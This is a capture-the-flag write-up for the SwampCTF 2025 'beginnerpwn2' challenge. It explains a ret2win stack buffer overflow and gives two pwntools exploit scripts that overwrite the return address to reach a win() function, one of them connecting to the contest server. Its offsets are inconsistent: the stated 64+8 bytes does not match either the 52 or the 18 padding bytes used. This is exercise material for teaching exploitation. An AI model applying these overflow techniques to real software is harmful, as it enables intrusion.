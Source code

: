 ```yaml
---
title: 'rev/SwampCTF 2025: beginnerpwn2'
date: '2025-04-01'
url: 'rev-swampctf2025-beginnerpwn2'
summary: 'beginner rev chal'
tags:
  - rev
---
```


Ret2Win the binary
win() function is located somewhere else in the binary, not being called.

Solution: Overflow the return address and point it to the win() function.

Find the buffer (which was 64 characters) and then add 8. Reverse since it's little endian. (or just use pwntools)
```
from pwn import *            # This is how we import pwntools

p = process('./binary')        # We're starting a new process

payload = b'A' * 52
payload += p32(0x080491c3)   # Use pwntools to pack it

log.info(p.clean())          # Receive all the text
p.sendline(payload)

log.info(p.clean()) 
```

```
from pwn import *             

from pwn import *

# Set the architecture and OS context
context.update(arch='x86_64', os='linux')
context.terminal = ['/bin/bash', '-c']  # Use standard Linux terminal

# Remote target details
HOST = "nc chals.swampctf.com 40001"
ADDRESS, PORT = HOST.split()[1:]

# Load the binary
BINARY_NAME = "./binary"
binary = context.binary = ELF(BINARY_NAME, checksec=False)

# Determine if running locally or remotely
if args.REMOTE:
    p = remote(ADDRESS, int(PORT))
else:
    p = process(binary.path)

# Payload parameters
length = 10 + 8
win = binary.sym.win
payload = length * b'A' + p64(win)

# Send payload
p.sendline(payload)
p.interactive()

```